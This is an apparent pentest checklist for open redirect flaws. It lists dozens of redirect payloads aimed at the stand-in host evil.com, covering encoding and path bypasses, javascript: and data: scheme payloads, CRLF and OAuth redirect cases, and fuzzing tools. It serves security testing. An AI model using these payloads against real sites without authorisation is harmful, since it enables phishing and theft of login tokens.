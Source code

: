 
##  Goal:
Test all user-controllable redirection points that may allow unvalidated redirection to attacker-controlled domains.

---

## URL Parameters with Redirection Logic
- [ ] `/redirect?url=https://evil.com`
- [ ] `/login?redirect=https://evil.com`
- [ ] `/auth/callback?continue=https://evil.com`
- [ ] `/home?next=https://evil.com`
- [ ] `/checkout?returnUrl=https://evil.com`
- [ ] `/dashboard?go=https://evil.com`
- [ ] `/exit?destination=https://evil.com`
- [ ] `/signin?ret=https://evil.com`
- [ ] `/start?redir=https://evil.com`
- [ ] `/forward?link=https://evil.com`

---

## Variants with Different Parameter Encodings
- [ ] `/redirect?url=//evil.com`
- [ ] `/redirect?url=evil.com`
- [ ] `/redirect?url=http://evil.com@trusted.com`
- [ ] `/redirect?url=http:evil.com`
- [ ] `/redirect?url=%2f%2fevil.com`
- [ ] `/redirect?url=https://evil.com/%2e%2e`
- [ ] `/redirect?url=https%3a%2f%2fevil.com`
- [ ] `/redirect?url=evil.com#@trusted.com`
- [ ] `/redirect?url=//evil.com%23@trusted.com`
- [ ] `/redirect?url=data:text/html,<script>`

---

## Parameter Names in Common Use
- [ ] `/api/forward?u=https://evil.com`
- [ ] `/jump?url=https://evil.com`
- [ ] `/click?target=https://evil.com`
- [ ] `/open?file=https://evil.com`
- [ ] `/view?image=https://evil.com`
- [ ] `/load?link=https://evil.com`
- [ ] `/download?resource=https://evil.com`
- [ ] `/path?redir_url=https://evil.com`
- [ ] `/fetch?redirect_uri=https://evil.com`
- [ ] `/api/oauth?redirect_to=https://evil.com`

---

## Redirection Inside Path or Fragments
- [ ] `/goto/https://evil.com`
- [ ] `/redirect/https://evil.com`
- [ ] `/auth/forward/https://evil.com`
- [ ] `/preview/#https://evil.com`
- [ ] `/start#url=https://evil.com`
- [ ] `/callback?next_page=%23https://evil.com`
- [ ] `/action?url=https://evil.com&foo=bar`
- [ ] `/continue?state=xyz&url=https://evil.com`
- [ ] `/jump-to?redirect=https://evil.com`
- [ ] `/confirm?forward_url=https://evil.com`

---

## Advanced/Tricky Test Cases
- [ ] Redirection via JavaScript: `location.href = getParam('redirect');`
- [ ] Redirection in `meta refresh` tags
- [ ] Redirection after OAuth login without strict validation
- [ ] Redirect chained after CAPTCHA solve
- [ ] Redirect during 2FA (e.g., `/2fa?next=...`)
- [ ] Hidden in base64 encoding: `/redirect?url=aHR0cHM6Ly9ldmlsLmNvbQ==`
- [ ] Mixed protocol redirection: `/redirect?url=javascript:alert(1)`
- [ ] Using CRLF injection for redirect manipulation
- [ ] CDN cache misconfiguration + redirect param
- [ ] Open redirect triggered via JSON input in POST requests

---

## Testing Notes
- [ ] Try schemes: `http`, `https`, `//`, `javascript:`, `data:`
- [ ] Test relative path bypass: `/%5cevil.com`, `%2f%2fevil.com`
- [ ] Test subdomain tricks: `evil.com.trusteddomain.com`
- [ ] Test URL fragments: `trusted.com#evil.com`
- [ ] Observe HTTP headers (`Location`, `Refresh`) and JS-based redirects

---

## Tools
- [ ] Burp Suite with *Open Redirect* plugin
- [ ] Turbo Intruder for automation
- [ ] Param-miner for discovering hidden redirect params
- [ ] Gau + GF + qsreplace combo
- [ ] FFUF or Kiterunner for redirect fuzzing

---

